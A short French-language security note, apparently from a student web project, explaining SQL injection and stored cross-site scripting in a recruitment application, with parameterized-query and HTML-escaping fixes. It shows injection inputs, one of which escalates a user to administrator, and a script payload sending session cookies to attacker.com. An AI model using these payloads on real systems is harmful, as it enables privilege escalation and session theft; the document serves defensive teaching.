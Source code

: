 # Injection SQL

Dans une situation où l'application prend un email comme entrée pour rechercher un utilisateur dans la base de données, nous avons :

```sql
SELECT * FROM Utilisateurs WHERE email = '[email]'
```

Une injection SQL possible pourrait ressembler à ce qui suit, avec `alix@utc.fr' --` comme entrée :

```sql
SELECT * FROM Utilisateurs WHERE email = 'alix@utc.fr' --'
```

Ici, le `--` est un commentaire en SQL qui fait ignorer tout ce qui suit. Ainsi, cette requête récupère tous les détails de l'utilisateur avec l'email "alix", en ignorant la vérification du mot de passe ou d'autres contraintes qui peuvent être présentes dans la requête originale.

Pour modifier les rôles, un attaquant pourrait injecter une requête telle que :

```sql
alix@utc.fr'; UPDATE Utilisateurs SET role = 'Administrateur' WHERE email = 'alix@utc.fr
```

Ce qui aboutirait à la requête suivante :

```sql
SELECT * FROM Utilisateurs WHERE email = 'alix'; UPDATE Utilisateurs SET role = 'Administrateur' WHERE email = 'alix'
```

Cela changerait le rôle de l'utilisateur "alix" en "Administrateur".

Pour prévenir les injections SQL, il faut utiliser des requêtes paramétrées (aussi appelées requêtes préparées). Voici un exemple avec MySQL en Node.js :

``````js
read: function (email, callback) {
    db.query("SELECT * FROM Utilisateurs WHERE email= ?", [email], function
        (err, results) {
        if (err) throw err;
        callback(results);
    });
}

``````


# Cross-Site Scripting

Pour une attaque XSS, nous avons la fonctionnalité d'envoyer des candidatures accompagnées par un message que l'utilisateur peut écrire lui même. Lorsqu'un utilisateur soumet un message, nous le stockons dans la base de données, puis on l'affichez sur la page des recruteurs en insérant directement le message dans le HTML de la page.

C'est là que se trouve la faille. Si un utilisateur malveillant soumet un message de candidature comme celui-ci :

```html
<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie;</script>
```

Le script sera exécuté chaque fois qu'un utilisateur charge la candidature. Le script redirige l'utilisateur vers un site contrôlé par l'attaquant et y envoie le cookie de l'utilisateur en tant que paramètre d'URL. Si vous utilisez des cookies pour les sessions d'utilisateurs, l'attaquant peut ainsi voler la session de l'utilisateur et usurper son identité.

Pour éviter cela, on doit correctement échappé le texte avant de l'afficher sur votre site. Cela signifie que les caractères spéciaux tels que `<` et `>` doivent être remplacés par leurs équivalents HTML, soit `&lt;` et `&gt;`. Cela empêche le navigateur d'interpréter le contenu comme du code HTML ou JavaScript.

Dans notre cas, nous utilisons la bibliothèque `escape-html`, voici un exemple d'utilisation :

```javascript
const escapeHtml = require('escape-html');

let candidature = getCandidature("alix@utc.fr"); // On récupere une candidature
let safeComment = escapeHtml(candidature.comment); // On échappe le texte

response.send(`<p>${safeComment}</p>`);
```

Dans cet exemple, si un utilisateur soumet le commentaire de script malveillant mentionné ci-dessus, il sera affiché sur la page en tant que texte brut, et non exécuté en tant que script.